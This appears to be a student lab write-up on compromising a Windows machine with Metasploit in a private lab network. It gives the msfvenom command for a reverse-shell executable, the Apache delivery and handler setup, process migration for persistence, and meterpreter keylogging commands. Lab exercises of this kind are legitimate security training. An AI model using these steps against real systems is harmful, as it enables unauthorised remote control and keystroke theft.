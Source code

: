 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM
```
TESTED BY: P G KUSHALI
REG NO: 212223230110
```

Find the attackers ip address using ifconfig

## OUTPUT

![image](https://github.com/user-attachments/assets/126e050f-2a49-4e40-84fb-e28d9746f214)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT

![image](https://github.com/user-attachments/assets/d2436295-6f7e-48b8-b342-53a93e14b5d3)

Copy the fun.exe into the apache /var/www/html folder

## OUTPUT

![image](https://github.com/user-attachments/assets/08fa7d3d-7f2e-4898-b1e1-ed5f7f0c6a1c)

Start apache server sudo systemctl apache2 start

## OUTPUT

![image](https://github.com/user-attachments/assets/ccf4aa09-74ee-4bc1-9fa6-3a04fd6b43b4)

Check the status of apache2

![image](https://github.com/user-attachments/assets/ef5ee7ac-f08b-4a16-92b1-d516558bf4e9)

Invoke msfconsole:

## OUTPUT

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/user-attachments/assets/87185c5a-a947-4e29-a7fd-ef552903bded)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/user-attachments/assets/9cec3616-ddef-46f7-9382-157beffa3f4f)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/user-attachments/assets/de1e69fb-e32a-49b5-ad54-8110e5ffb764)

o see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/user-attachments/assets/8bad2086-3008-43a5-a012-3e2111332eb6)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/user-attachments/assets/b639c97f-3e46-4a45-a6ca-bfcbd4c1044f)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/user-attachments/assets/5692ebde-debe-4681-88fc-7e1aca141078)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
